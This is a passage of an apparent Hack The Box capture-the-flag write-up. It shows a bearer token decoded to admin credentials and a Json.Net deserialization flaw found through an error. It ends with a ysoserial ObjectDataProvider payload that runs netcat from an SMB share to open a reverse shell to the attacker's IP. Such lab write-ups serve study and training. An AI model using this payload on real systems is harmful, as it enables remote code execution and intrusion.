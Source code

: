 Decoded it is: `{"Id":1,"UserName":"admin","Password":"21232f297a57a5a743894a0e4a801fc3","Name":"User Admin HTB","Rol":"Administrator"}`

When the main page accesses the `/api/Account` endpoint, I see it also sends the same base64 encoded value in the `Bearer` header:

![](/assets/images/htb-writeup-json/bearer.png)

I'll modify the `Bearer` header and see if I can make it error out. To start with, I'll use the following payload which is invalid JSON:

`echo '{"Id":1,"UserName":"admin","Password":"21232f297a57a5a743894a0e4a801fc3",thisisinvalid___aaaaaaa}' | base64 -w0`

![](/assets/images/htb-writeup-json/json500.png)

Ahah! So now I know that the web application is deserializing the `Bearer` content using the Json.Net library. I remember reading about deserialization vulnerabilities recently during my OSWE studies. There was also another HTB box called Arkham who used a deserialization vulnerability but with Java.

There's a nice tool already written that generates deserialization payloads using gadgets found in common librairies and frameworks. For this box, I'll use the ObjectDataProvider gadget with the Json.net formatter. I'll attempt to get a reverse shell by executing netcat through an SMB share on my box.

```
ysoserial.exe -g ObjectDataProvider -f json.net -c "\\\\10.10.14.21\\pwn\\nc.exe -e cmd.exe 10.10.14.21 4444" -o raw
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd','/c \\\\10.10.14.21\\pwn\\nc.exe -e cmd.exe 10.10.14.21 4444']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

